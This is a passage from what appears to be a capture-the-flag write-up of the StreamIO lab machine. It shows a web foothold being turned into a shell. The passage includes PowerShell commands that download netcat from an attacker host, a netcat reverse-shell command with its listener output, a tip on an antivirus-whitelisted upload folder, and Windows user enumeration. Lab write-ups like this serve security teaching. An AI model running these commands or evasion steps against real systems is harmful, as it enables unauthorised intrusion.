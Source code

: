 We learn that we are in the directory `C:\inetpub\streamio.htb\admin`. To get a reverse shell here we can just upload netcat and then run netcat remotely to send us a reverse shell.

If the upload fails, the directory `C:\Windows\System32\spool\drivers\color\nc.exe` is always a good one to upload files as it is often whitelisted by the AV.

Using the same Curl command as above we can change the `cmd=` value to:
```bash
# Upload netcat
cmd=powershell.exe+iwr+-uri+10.10.14.30/nc.exe+-outfile+"C:/inetpub/streamio.htb/admin/nc.exe"

# Get a reverse shell
cmd=C:/inetpub/streamio.htb/admin/nc.exe+-e+powershell+10.10.14.30+9001
```

Receiving the reverse shell:
```bash
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.30] from (UNKNOWN) [10.129.186.175] 49935
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\streamio.htb\admin> whoami
streamio\yoshihide
```

## Shell as yoshihide
### Enumerating the machine
Enumerating users:
```powershell
PS C:\inetpub\streamio.htb\admin> net user
net user

User accounts for \\DC

-------------------------------------------------------------------------------
Administrator            Guest                    JDgodd                   
krbtgt                   Martin                   nikk37                   
yoshihide                
The command completed successfully.
```

We can see that `Martin` is member of Administrator group:
```powershell
PS C:\inetpub\streamio.htb\admin> net user Martin /domain
net user Martin /domain
User name                    Martin
Full Name                    
Comment                      
Users comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2022 4:16:42 PM
Password expires             Never
Password changeable          5/27/2022 4:16:42 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
```